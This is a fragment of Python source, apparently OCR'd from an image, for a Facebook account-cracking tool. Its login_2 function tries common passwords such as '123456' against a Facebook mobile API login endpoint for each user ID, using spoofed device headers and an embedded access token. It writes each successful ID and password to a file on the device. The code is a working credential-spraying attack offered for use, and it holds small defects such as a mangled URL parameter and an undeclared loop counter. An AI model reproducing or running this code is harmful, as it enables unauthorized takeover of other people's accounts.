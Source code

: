 
def login_2(uid):
    """
    Login attempt method 2.
    """
    sys.stdout.write(f"\r\r\x1b[1;37m\x1b[38;5;196m+\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB-M2\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{loop}\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mOK\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[38;5;192m{len(oks)}\x1b[38;5;196m)")
    
    for pw in ('123456', '123123', '1234567', '12345678', '123456789'):
        try:
            with requests.Session() as session:
                headers = {
                    'x-fb-connection-bandwidth': str(rr(20000000, 29999999)),
                    'x-fb-sim-hni': str(rr(20000, 40000)),
                    'x-fb-net-hni': str(rr(20000, 40000)),
                    'x-fb-connection-quality': 'EXCELLENT',
                    'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA',
                    'user-agent': window1(),
                    'content-type': 'application/x-www-form-urlencoded',
                    'x-fb-http-engine': 'Liger'
                }
                url = f"https://b-api.facebook.com/method/auth.login?format=json&email={str(uid)}&password={str(pw)}&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true"
                po = session.get(url, headers=headers).json()
                if 'session_key' in str(po):
                    print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m<\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
                    open('/sdcard/AHB-OLD-M2-OK.txt', 'a').write(f"{uid}|{pw}\n")
                    oks.append(uid)
                    break
                elif 'session_key' in po:
                    print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
                    open('/sdcard/AHB-OLD-M2-OK.txt', 'a').write(f"{uid}|{pw}\n")
                    oks.append(uid)
                    break
        except Exception as e:
            pass
    loop += 1

if __name__ == '__main__':
    BNG_71_()
